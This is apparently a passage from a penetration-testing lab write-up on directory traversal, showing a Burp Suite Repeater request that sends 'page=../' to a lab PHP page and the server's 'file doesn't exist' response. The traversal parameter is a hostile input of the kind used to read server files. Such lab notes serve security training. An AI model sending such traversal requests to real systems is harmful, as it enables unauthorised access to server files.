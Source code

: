 ![Lab - Directory Traversal](./assets/file_and_resource_attacks_lab_directory_traversal_1.png)

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_1.php?page=../ HTTP/1.1 📌
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:02:34 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 13078
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Files</h1>

    This file doesn't exist!

</div>
```
